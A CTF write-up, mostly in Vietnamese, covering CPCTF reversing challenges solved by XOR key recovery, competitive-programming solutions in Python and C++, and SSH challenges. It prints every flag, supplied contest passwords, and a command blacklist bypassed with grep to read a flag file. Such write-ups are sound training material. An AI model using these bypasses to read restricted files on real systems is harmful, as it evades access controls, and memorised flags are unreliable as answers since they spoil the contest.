

Thực hiện phép XOR chuỗi byte trong hàm kiểm tra để đảo ngược và trích xuất giá trị khóa bí mật



Thiết lập biến môi trường `CTF_SECRET_KEY` bằng giá trị vừa tìm được rồi chạy lại chương trình để lấy flag



> Flag: CPCTF{c4n_y0u_f1nd_3nv1r0nm3n7_v4r1abl35}

---

## viGor (Level 4)

元気にやっていきましょう

---

Cấp quyền thực thi và chạy thử chương trình trên hệ thống Linux



Sử dụng lệnh `strings` để nhận diện cấu trúc tệp thực thi (binary viết bằng ngôn ngữ Go)



Phân tích hàm `main` trong IDA Pro: chương trình yêu cầu input gồm 3 ký tự. Mỗi ký tự nhập vào phải là một rune UTF-8 có độ dài 4 byte, trong đó 2 byte đầu tiên bắt buộc phải là `f0 9f` (tiền tố chuẩn của các ký tự Emoji)



Quan sát trên stack, chương trình đẩy 30 hằng số vào bộ nhớ



```text
04 6c 52 17 51 4a 05 5f 1f 2d
4b 06 33 65 4c 74 79 7e 24 45
77 0e 47 7a 0f 0d 33 31 60 79
```

Mã giả (pseudocode) giải thuật giải mã trong chương trình như sau:

```go
out := ""
for i := 0; i < 30; i++ {
    out += chr(arr[i] ^ mask[i] ^ key[i % 6])
}
fmt.Println(out)
```

Với `key` có chu kỳ độ dài 6 byte, quan hệ giữa flag và các mảng byte là:

```python
flag[i] = arr[i] ^ mask[i] ^ key[i]
```

Suy ra:

```python
key[i] = arr[i] ^ mask[i] ^ ord(flag[i])
```

Vì format cờ luôn có tiền tố đã biết là `CPCTF{`, ta dễ dàng tính ngược lại 6 byte của `key`:

```python
arr = [
    0x04, 0x6c, 0x52, 0x17, 0x51, 0x4a,
    0x05, 0x5f, 0x1f, 0x2d, 0x4b, 0x06,
    0x33, 0x65, 0x4c, 0x74, 0x79, 0x7e,
    0x24, 0x45, 0x77, 0x0e, 0x47, 0x7a,
    0x0f, 0x0d, 0x33, 0x31, 0x60, 0x79
]

mask = [
    226,140,137,226,143,156,226,157,179,239,
    184,152,226,166,139,226,142,166,226,157,
    176,226,166,136,226,142,159,226,140,169
]

prefix = "CPCTF{"
key = [arr[i] ^ mask[i] ^ ord(prefix[i]) for i in range(6)]
print("Key:", key, [hex(x) for x in key])
```



Sau khi tìm được các byte tương ứng, chuyển đổi sang chuỗi Emoji UTF-8:

```text
f0 9f a5 b0 → 🥰
f0 9f 98 a1 → 😡
f0 9f 98 ad → 😭
```

Chạy lại chương trình và nhập chuỗi 3 Emoji này để in ra flag hoàn chỉnh



> Flag: CPCTF{Br4ck3ts_7ouch_My_H34rt}
---
# PPC

## Modulo Equation (Level 1)

https://yukicoder.me/problems/13060

---

```python
import sys
input = sys.stdin.read
data = input().split()

A = int(data[0])
B = int(data[1])

print(A + B)
```




>Flag: CPCTF{D1d_y0u_8ru73_f0rc3_17!?}
---

## Sign up for traP (Level 1)

https://yukicoder.me/problems/13201

---

```python
import sys


S = sys.stdin.readline().strip()

def is_valid_traq_id(s: str) -> int:
    if not (1 <= len(s) <= 32):
        return 400
 
    allowed = set("ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_-")
    if not all(c in allowed for c in s):
        return 400
    
    if s[0] in '_-' or s[-1] in '_-':
        return 400
    
    return 200

print(is_valid_traq_id(S))
```



>Flag: CPCTF{s10w1y_bu7_sure1y}
---

## 01 String (Level 2)

https://yukicoder.me/problems/13158

---

```cpp
#include <iostream>
#include <string>
#include <vector>

using namespace std;

int main() {
    ios::sync_with_stdio(false);
    cin.tie(nullptr);

    int n;
    string a;
    if (!(cin >> n >> a)) return 0;

    long long mod = 998244353;

    int start = 0;
    while (start < n && a[start] == '1') start++;

    int end = n - 1;
    while (end >= 0 && a[end] == '0') end--;

    if (start >= end) {
        cout << 1 << endl;
        return 0;
    }

    long long ans = 1;
    for (int i = start; i <= end; ) {
        int j = i;
        int zero_cnt = 0;
        int one_cnt = 0;

        while (j <= end && a[j] == '0') {
            zero_cnt++;
            j++;
        }
        while (j <= end && a[j] == '1') {
            one_cnt++;
            j++;
        }

        if (zero_cnt > 0 && one_cnt > 0) {
            ans = ans * (zero_cnt + one_cnt + 1) % mod;
        } else if (zero_cnt > 0) {
            ans = ans * 1 % mod;
        }
        
        i = j;
    }

    cout << ans << endl;

    return 0;
}
```



>Flag: CPCTF{K33p_901n9_Fr0m_h3R3}
---

## Bracket Stack Query 2 (Level 2)

https://yukicoder.me/problems/13228

---

```cpp
#include <iostream>
#include <vector>

using namespace std;

struct Node {
    char c;
    int parent;
    int depth;
};

Node nodes[800005];
int state_at_step[800005]; 

int main() {
    ios_base::sync_with_stdio(false);
    cin.tie(NULL);

    int Q;
    cin >> Q;

    nodes[0] = {' ', -1, 0};
    state_at_step[0] = 0;
    
    int s_len = 0; 
    int node_count = 0; 

    for (int i = 0; i < Q; ++i) {
        int type;
        cin >> type;

        if (type == 1) {
            char c;
            cin >> c;
            
            int prev_state = state_at_step[s_len];
            s_len++;

            bool simplified = false;
            if (c == ')') {
                int p1 = prev_state; 
                if (p1 != 0 && nodes[p1].c == '|') {
                    int p2 = nodes[p1].parent; 
                    if (p2 != 0 && nodes[p2].c == '(') {
                    
                        state_at_step[s_len] = nodes[p2].parent;
                        simplified = true;
                    }
                }
            }

            if (!simplified) {

                node_count++;
                nodes[node_count] = {c, prev_state, nodes[prev_state].depth + 1};
                state_at_step[s_len] = node_count;
            }
        } else {

            if (s_len > 0) s_len--;
        }

        if (state_at_step[s_len] == 0) {
            cout << "Yes\n";
        } else {
            cout << "No\n";
        }
    }

    return 0;
}
```



>Flag: CPCTF{st4cks_h4v3_b0th_ch4rs_and_h15tr0rys}
---

## I Love DAG (Level 2)

https://yukicoder.me/problems/no/3499

---

```cpp
#include <iostream>

using namespace std;

int main() {
    ios_base::sync_with_stdio(false);
    cin.tie(NULL);

    int N, M;
    if (!(cin >> N >> M)) return 0;

    for (int i = 0; i < M; ++i) {
        int A, B;
        cin >> A >> B;

        if (A < B) {
            cout << 0 << endl;
        } else {
            cout << 1 << endl;
        }
    }

    return 0;
}
```



>Flag: CPCTF{cyc135_4r3_70x1c_70_m3}
---

## Digit Products 2 (Level 3)

https://yukicoder.me/problems/13166

---

```cpp
#include <iostream>
#include <vector>
#include <string>

using namespace std;

int main() {
    int N;
    cin >> N;

    vector<int> p(N - 1);
    for (int i = 0; i < N - 1; ++i) {
        cout << "? " << i << " " << N - 1 << endl;
        cin >> p[i];
        if (p[i] == -1) return 0;
    }

    int p_extra;
    cout << "? 0 1" << endl;
    cin >> p_extra;

    vector<string> candidates;
    for (int d_last = 1; d_last <= 9; ++d_last) {
        vector<int> current_d(N);
        current_d[N - 1] = d_last;
        bool possible = true;
        for (int i = 0; i < N - 1; ++i) {
            if (p[i] % d_last != 0 || p[i] / d_last > 9) {
                possible = false;
                break;
            }
            current_d[i] = p[i] / d_last;
        }

        if (possible) {
            if (current_d[0] * current_d[1] == p_extra) {
                string s = "";
                for (int i = N - 1; i >= 0; --i) s += to_string(current_d[i]);
                candidates.push_back(s);
            }
        }
    }

    if (candidates.size() == 1) {
        cout << "! " << candidates[0] << endl;
    } else {
        cout << "! -1" << endl;
    }

    return 0;
}
```



>Flag: CPCTF{num63r_w1th_thr33_0r_m0r3_n0n_z3r0_d1g175_c4n_b3_d373rm1n3d_1n_0n1y_0n3_w4y}
---

## GCD Knapsack (Level 3)

https://yukicoder.me/problems/13218


---

```cpp
#include <bits/stdc++.h>
using namespace std;

int main() {
    ios::sync_with_stdio(false);
    cin.tie(nullptr);

    int N, W;
    cin >> N >> W;

    vector<int> X(N);
    vector<long long> Y(N);

    int MX = 0;
    for (int i = 0; i < N; i++) {
        cin >> X[i];
        MX = max(MX, X[i]);
    }
    for (int i = 0; i < N; i++) {
        cin >> Y[i];
    }

    vector<long long> by_weight(MX + 1, 0);
    for (int i = 0; i < N; i++) {
        by_weight[X[i]] += Y[i];
    }

    long long ans = 0;
    for (int g = W; g <= MX; g++) {
        long long cur = 0;
        for (int multiple = g; multiple <= MX; multiple += g) {
            cur += by_weight[multiple];
        }
        ans = max(ans, cur);
    }

    cout << ans << '\n';
    return 0;
}
```



>Flag: CPCTF{5p34r_0f_4rv355!}
---

## Insert Maze (Level 3)

https://yukicoder.me/problems/13152

---

```cpp
#include <bits/stdc++.h>
using namespace std;

int main() {
    ios::sync_with_stdio(false);
    cin.tie(nullptr);

    int H, W;
    cin >> H >> W;
    vector<string> C(H);
    for (int i = 0; i < H; i++) cin >> C[i];

    auto id = [&](int i, int j) { return i * W + j; };

    vector<unsigned char> fromS(H * W, 0), toG(H * W, 0);

    for (int i = 0; i < H; i++) {
        for (int j = 0; j < W; j++) {
            if (C[i][j] == '#') continue;
            if (i == 0 && j == 0) {
                fromS[id(i, j)] = 1;
            } else {
                bool ok = false;
                if (i > 0 && fromS[id(i - 1, j)]) ok = true;
                if (j > 0 && fromS[id(i, j - 1)]) ok = true;
                fromS[id(i, j)] = ok;
            }
        }
    }

    for (int i = H - 1; i >= 0; i--) {
        for (int j = W - 1; j >= 0; j--) {
            if (C[i][j] == '#') continue;
            if (i == H - 1 && j == W - 1) {
                toG[id(i, j)] = 1;
            } else {
                bool ok = false;
                if (i + 1 < H && toG[id(i + 1, j)]) ok = true;
                if (j + 1 < W && toG[id(i, j + 1)]) ok = true;
                toG[id(i, j)] = ok;
            }
        }
    }

    if (fromS[id(H - 1, W - 1)]) {
        cout << H + W - 2 << '\n';
        return 0;
    }

    for (int r = 0; r + 1 < H; r++) {
        vector<unsigned char> suff(W + 1, 0);
        for (int j = W - 1; j >= 0; j--) {
            suff[j] = suff[j + 1] || toG[id(r + 1, j)];
        }

        bool pref = false;
        for (int j = 0; j < W; j++) {
            pref = pref || fromS[id(r, j)];
            if (pref && suff[j]) {
                cout << H + W - 1 << '\n';
                return 0;
            }
        }
    }

    for (int c = 0; c + 1 < W; c++) {
        vector<unsigned char> suff(H + 1, 0);
        for (int i = H - 1; i >= 0; i--) {
            suff[i] = suff[i + 1] || toG[id(i, c + 1)];
        }

        bool pref = false;
        for (int i = 0; i < H; i++) {
            pref = pref || fromS[id(i, c)];
            if (pref && suff[i]) {
                cout << H + W - 1 << '\n';
                return 0;
            }
        }
    }

    cout << H + W << '\n';
    return 0;
}
```



>Flag: CPCTF{Y0u_4r3_4_sUperHum4n11}
---

## Sum of Prod of Root (Level 3)

https://yukicoder.me/problems/13164

---

```cpp
#include <bits/stdc++.h>
using namespace std;

using int64 = long long;
using i128 = __int128_t;

static const long long MOD = 998244353;
static const long long INV2 = (MOD + 1) / 2;
static const long long INV6 = 166374059;   
static const long long INV30 = 432572553;  

long long mod_pow(long long a, long long e) {
    long long r = 1 % MOD;
    while (e > 0) {
        if (e & 1) r = (long long)((__int128)r * a % MOD);
        a = (long long)((__int128)a * a % MOD);
        e >>= 1;
    }
    return r;
}

long long isqrt_ll(long long n) {
    long long x = sqrtl((long double)n);
    while ((i128)(x + 1) * (x + 1) <= n) ++x;
    while ((i128)x * x > n) --x;
    return x;
}

long long icbrt_ll(long long n) {
    long long x = cbrtl((long double)n);
    while ((i128)(x + 1) * (x + 1) * (x + 1) <= n) ++x;
    while ((i128)x * x * x > n) --x;
    return x;
}

long long sum1(long long n) { 
    n %= MOD;
    return (long long)((__int128)n * ((n + 1) % MOD) % MOD * INV2 % MOD);
}

long long sum2(long long n) { 
    long long a = n % MOD;
    long long b = (n + 1) % MOD;
    long long c = (2 * (n % MOD) + 1) % MOD;
    return (long long)((__int128)a * b % MOD * c % MOD * INV6 % MOD);
}

long long sum3(long long n) { 
    long long s = sum1(n);
    return (long long)((__int128)s * s % MOD);
}

long long sum4(long long n) { 
    long long a = n % MOD;
    long long b = (n + 1) % MOD;
    long long c = (2 * (n % MOD) + 1) % MOD;
    long long d = (3 * ( (__int128)n * n % MOD ) % MOD + 3 * (n % MOD) - 1) % MOD;
    if (d < 0) d += MOD;
    return (long long)((__int128)a * b % MOD * c % MOD * d % MOD * INV30 % MOD);
}

long long range_sum(long long l, long long r) { 
    if (l > r) return 0;
    long long len = (r - l + 1) % MOD;
    long long s = ((l % MOD) + (r % MOD)) % MOD;
    return (long long)((__int128)s * len % MOD * INV2 % MOD);
}

long long full_blocks(long long m) {
    if (m <= 0) return 0;
    long long s2 = sum2(m);
    long long s3 = sum3(m);
    long long s4 = sum4(m);
    long long res = 0;
    res = (res + 2LL * s4) % MOD;
    res = (res + 3LL * s3) % MOD;
    res = (res + s2) % MOD;
    return res;
}

long long calcF(long long n) {
    if (n <= 0) return 0;
    long long m = isqrt_ll(n);
    long long res = full_blocks(m - 1);

    long long l = m * m;
    long long tail = range_sum(l, n);
    res = (res + (__int128)(m % MOD) * tail) % MOD;
    return res;
}

int main() {
    ios::sync_with_stdio(false);
    cin.tie(nullptr);

    long long N;
    cin >> N;
    
    vector<pair<long long, int>> events; 
    long long lim = icbrt_ll(N);

    for (long long a = 2; a <= lim; ++a) {
        i128 p = (i128)a * a * a; 
        while (p <= N) {
            events.push_back({(long long)p, (int)a});
            p *= a;
        }
    }

    sort(events.begin(), events.end());

    vector<long long> inv(max(2LL, lim + 1), 1);
    for (long long i = 2; i <= lim; ++i) {
        inv[i] = MOD - (long long)((__int128)(MOD / i) * inv[MOD % i] % MOD);
    }

    long long ans = 0;
    long long curL = 1;
    long long R = 1; 

    int m = (int)events.size();
    int idx = 0;

    while (idx < m) {
        long long x = events[idx].first;

        if (curL <= x - 1) {
            long long seg = (calcF(x - 1) - calcF(curL - 1)) % MOD;
            if (seg < 0) seg += MOD;
            ans = (ans + (__int128)R * seg) % MOD;
        }

        while (idx < m && events[idx].first == x) {
            int a = events[idx].second;
            long long mul = (long long)((__int128)(a % MOD) * inv[a - 1] % MOD);
            R = (long long)((__int128)R * mul % MOD);
            ++idx;
        }

        curL = x;
    }

    if (curL <= N) {
        long long seg = (calcF(N) - calcF(curL - 1)) % MOD;
        if (seg < 0) seg += MOD;
        ans = (ans + (__int128)R * seg) % MOD;
    }

    cout << ans % MOD << '\n';
    return 0;
}
```



>Flag: CPCTF{c0ns74n7_4lmos7_3v3rywh3r3}
---

## OR Mapping (Level 4)

https://yukicoder.me/problems/13182

---

```cpp
#include <iostream>
#include <vector>
#include <queue>

using namespace std;

const int MAXN = 500005;
vector<int> adj[MAXN], rev_adj[MAXN];
vector<int> order;
bool visited[MAXN];
int scc_id[MAXN];
vector<vector<int>> scc_nodes;

void dfs1(int u) {
    visited[u] = true;
    for (int v : adj[u]) {
        if (!visited[v]) dfs1(v);
    }
    order.push_back(u);
}

void dfs2(int u, int id) {
    visited[u] = true;
    scc_id[u] = id;
    scc_nodes.back().push_back(u);
    for (int v : rev_adj[u]) {
        if (!visited[v]) dfs2(v, id);
    }
}

int main() {
    ios_base::sync_with_stdio(false);
    cin.tie(NULL);

    int n, m, k;
    if (!(cin >> n >> m >> k)) return 0;

    for (int i = 0; i < m; i++) {
        int u, v;
        cin >> u >> v;
        adj[u].push_back(v);
        rev_adj[v].push_back(u);
    }

    for (int i = 1; i <= n; i++) visited[i] = false;
    for (int i = 1; i <= n; i++) {
        if (!visited[i]) dfs1(i);
    }

    for (int i = 1; i <= n; i++) visited[i] = false;
    int current_scc = 0;

    for (int i = n - 1; i >= 0; i--) {
        int u = order[i];
        if (!visited[u]) {
            scc_nodes.push_back(vector<int>());
            dfs2(u, current_scc);
            current_scc++;
        }
    }

    if (scc_id[1] != 0) {
        cout << "No\n";
        return 0;
    }


    for (int i = 0; i < current_scc - 1; i++) {
        bool has_edge = false;
        for (int u : scc_nodes[i]) {
            for (int v : adj[u]) {
                if (scc_id[v] == i + 1) {
                    has_edge = true;
                    break;
                }
            }
            if (has_edge) break;
        }
        if (!has_edge) {
            cout << "No\n";
            return 0;
        }
    }

    vector<int> type(current_scc);
    vector<int> color(n + 1, -1);

    for (int i = 0; i < current_scc; i++) {
        bool is_bip = true;
        for (int u : scc_nodes[i]) {
            if (color[u] == -1) {
                color[u] = 0;
                queue<int> q;
                q.push(u);
                while (!q.empty()) {
                    int curr = q.front();
                    q.pop();
                    for (int nxt : adj[curr]) {
                        if (scc_id[nxt] != i) continue;
                        if (color[nxt] == -1) {
                            color[nxt] = color[curr] ^ 1;
                            q.push(nxt);
                        } else if (color[nxt] == color[curr]) {
                            is_bip = false;
                        }
                    }
                    
                    for (int nxt : rev_adj[curr]) {
                        if (scc_id[nxt] != i) continue;
                        if (color[nxt] == -1) {
                            color[nxt] = color[curr] ^ 1;
                            q.push(nxt);
                        } else if (color[nxt] == color[curr]) {
                            is_bip = false;
                        }
                    }
                }
            }
        }
        
        if (!is_bip) {
            type[i] = 0; 
        } else {
            if (scc_nodes[i].size() == 1) type[i] = 1; 
            else type[i] = 2; 
        }
    }


    if (type[0] == 1) {
        cout << "No\n";
        return 0;
    }

    for (int i = 0; i < current_scc; i++) {

        if (type[i] == 2) {
            cout << "No\n";
            return 0;
        }
    }

    for (int i = 0; i < current_scc - 1; i++) {
 
        if (type[i] == 1 && type[i + 1] == 1) {
            cout << "No\n";
            return 0;
        }
    }

    cout << "Yes\n";
    return 0;
}

```



>Flag: CPCTF{Y0u_go_4r0und_in_str0ngly_c0nnected_c0mpon3nts}
---

# SHELL

## ssh (Level 1)

sshしてみましょう！

flagは`/flag/flag.txt` においてあります。  
`password:cpctf2026`

---

Đề bài cung cấp tài khoản và thông tin SSH, thông báo cờ được đặt tại `/flag/flag.txt`. Đăng nhập SSH bằng mật khẩu được cấp và kiểm tra sự tồn tại của tệp tin, sau đó đọc nội dung để thu được flag



> Flag: CPCTF{w31c0m3_2_c11_w0r1d}

---

## ssh2 (Level 2)

今度はファイルの中身を出力するコマンドは使えないぞ！  
[ban.txt](https://files.cpctf.space/ssh2/ban.txt)  
`password:cpctf2026`

---

Ở cấp độ này, hệ thống áp dụng danh sách đen (blacklist) cấm các lệnh đọc nội dung file phổ biến được liệt kê trong `ban.txt`:

```bash
cat,tac,less,more,head,tail,nl,rev
```

Để vượt qua hạn chế này, ta có thể sử dụng các tiện ích khác không nằm trong danh sách cấm như `grep`, `awk`, `sed` hoặc `base64`. Ở đây, sử dụng lệnh `grep` với chuỗi tìm kiếm rỗng để đọc toàn bộ nội dung tệp tin:

```bash
grep "" /flag/flag.txt
```

